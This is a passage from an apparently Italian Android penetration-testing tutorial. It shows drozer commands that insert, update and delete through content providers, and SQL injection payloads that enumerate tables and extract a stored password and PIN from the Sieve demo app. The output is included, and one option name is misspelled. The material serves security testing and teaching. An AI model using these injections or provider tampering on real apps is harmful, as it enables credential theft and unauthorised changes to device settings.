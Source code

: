 Puoi anche eseguire insert, update e delete tramite drozer:

```sh
dz> run app.provider.insert content://com.vulnerable.im/messages
	--string date 1331769850325
	--string type 0
	--string _id 7

dz> run app.provider.update content://settings/secure
	--selection "name=?"
	--selection-args assisted_gps_enabled
	--integer value 0

dz> run app.provider.delete content://settings/secure
	--selection "name=?"
	--seelction-args my_settings
```

Puoi provare delle SQL injection tramite drozer:

```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')

Puoi sfruttare una vulnerabilità di SQL injection per enumerare le tabelle dal database

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```
	
```
| type
| name
| tbl_name
| rootpage | sql
|
| table | android_metadata | android_metadata | 3 | CREATE TABLE ... |
| table | Passwords | Passwords | 4 | CREATE TABLE ... |
| table | Key | Key | 5 | CREATE TABLE ... |
```

Oppure per estrarre informazioni sensibili

```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```

```
| Password | pin |
| thisismypassword | 9876 |
```

Questo processo può essere automatizzato:
